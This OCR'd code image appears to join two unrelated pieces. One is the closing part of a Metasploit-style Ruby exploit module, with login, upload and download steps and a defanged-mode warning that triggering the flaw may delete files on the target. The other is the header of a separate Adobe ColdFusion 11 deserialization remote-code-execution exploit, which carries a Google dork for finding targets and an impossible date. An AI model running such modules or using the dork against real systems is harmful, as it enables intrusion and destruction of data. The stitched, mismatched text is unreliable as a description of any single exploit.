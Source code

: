     if res.nil?
      fail_with(Failure::Unreachable, 'Download request failed.')
    end

    if res.code != 200
      fail_with(Failure::Unknown, res.body)
    end

    if res.headers['Content-Type'] == 'application/json'
      json_res = res.get_json_document

      if json_res['error']
        fail_with(Failure::Unknown, json_res['error'])
        return
      end
    end

    print_status res.body
  end

  def run
    if datastore['DEFANGED_MODE']
      warning = <<~EOF
        Triggering this vulnerability may delete the local file if the web service user has the permission.
        If you want to continue, disable the DEFANGED_MODE.
        => set DEFANGED_MODE false
      EOF

      fail_with(Failure::BadConfig, warning)
    end

    try_login
    try_upload
    try_download
  end
end
  # Exploit Title: Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code Execution (RCE)
# Google Dork: intext:"adobe coldfusion 11"
# Date: 2022-22-02
# Exploit Author: Amel BOUZIANE-LEBLOND (https://twitter.com/amellb)
# Vendor Homepage: https://www.adobe.com/sea/products/coldfusion-family.html
# Version: Adobe Coldfusion (11.0.03.292866)
# Tested on: Microsoft Windows Server & Linux

